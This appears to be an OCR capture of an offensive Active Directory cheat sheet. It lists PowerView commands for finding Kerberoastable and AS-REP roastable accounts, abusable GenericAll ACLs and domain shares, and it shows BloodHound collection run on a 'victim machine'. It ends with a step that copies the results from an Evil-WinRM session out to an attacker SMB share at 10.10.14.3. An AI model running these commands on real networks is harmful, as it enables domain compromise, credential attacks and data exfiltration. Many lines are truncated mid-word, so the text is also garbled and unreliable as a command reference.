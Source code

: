 Get-NetSession -ComputerName files04 -Verbose #Checking logged on users
with Get-NetSessi

Get-NetUser -SPN \| select samaccountname,serviceprincipalname \#
Listing SPN accounts in d

Get-ObjectAcl -Identity \<user\> \# enumerates ACE(access control
entities), lists SID(secur

Convert-SidToName \<sid/objsid\> \# converting SID/ObjSID to name

\# Checking for \"GenericAll\" right for a specific group, after
obtaining they can be conve

Get-ObjectAcl -Identity \"group-name\" \| ? {\$\_.ActiveDirectoryRights
-eq \"GenericAll\"} \| se

Find-DomainShare #find the shares in the domain

Get-DomainUser -PreauthNotRequired -verbose \# identifying AS-REP
roastable accounts

Get-NetUser -SPN \| select serviceprincipalname #Kerberoastable accounts

### Bloodhound

Collection methods - database

\# Sharphound - transfer sharphound.ps1 into the compromised machine

Import-Module .\\Sharphound.ps1

Invoke-BloodHound -CollectionMethod All -OutputDirectory \<location\>
-OutputPrefix \"name\"

\# Bloodhound-Python

bloodhound-python -u \'uname\' -p \'pass\' -ns \<rhost\> -d
\<domain-name\> -c all #output will b

Running Bloodhound

sudo neo4j console

\# then upload the .json files obtained

Or other method

first active the server with command

-   **\$ sudo neo4j console**

then launched the bloodhound and copy the **SharpHound.exe** into victim
machine using simple http server. running with command **SharpHound.exe
-c all**

then download file zip result from SharpHound using impacket-smbserver

-   **\$ impacket-smbserver kali .**

```{=html}
<!-- -->
```
-   **\*Evil-WinRM\* PS \> copy 20240211070801_BloodHound.zip
    > \\\\10.10.14.3\\kali\\20240211070801_BloodHound.zip**
